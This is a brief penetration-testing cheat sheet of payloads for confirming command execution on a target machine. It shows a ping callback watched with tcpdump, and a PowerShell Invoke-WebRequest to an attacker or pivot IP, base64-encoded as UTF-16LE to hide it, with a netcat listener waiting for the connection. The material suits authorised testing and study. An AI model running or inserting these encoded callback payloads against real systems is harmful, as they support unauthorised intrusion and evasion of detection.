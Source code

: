 # Pop Calc & Similar commands

## Ping
```bash
# payload
ping <your_ip_address>

# On the attacker or pivot machine
tcpdump -vvv -A -i <INTERFACE> src <TARGET_IP> and icmp
```

## Powershell execution and connection

* [Reference](./Base64_encode_powershell_commands.html)

```bash
# Payload
echo -n 'Invoke-WebRequest -Uri "http://<ATTACKER_or_PIVOT_IP>:<LISTENING_PORT>"' | iconv -f UTF8 -t UTF16LE | base64 -w 0
# On the attacker or pivot machine
nc -lnvp <LISTENING_PORT>
```

